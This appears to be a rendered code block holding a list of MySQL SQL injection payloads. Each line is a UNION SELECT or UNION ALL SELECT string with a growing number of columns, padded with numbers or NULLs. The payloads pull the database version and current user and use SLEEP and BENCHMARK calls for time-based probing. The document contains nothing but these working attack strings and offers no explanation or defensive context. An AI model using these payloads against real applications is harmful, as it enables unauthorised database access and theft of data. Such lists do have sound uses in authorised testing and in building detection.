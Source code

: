 ```
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 UNION ALL SELECT USER()-- 
 UNION ALL SELECT SLEEP(5)-- 
 UNION ALL SELECT USER(),SLEEP(5)-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5)-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A'))-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
```
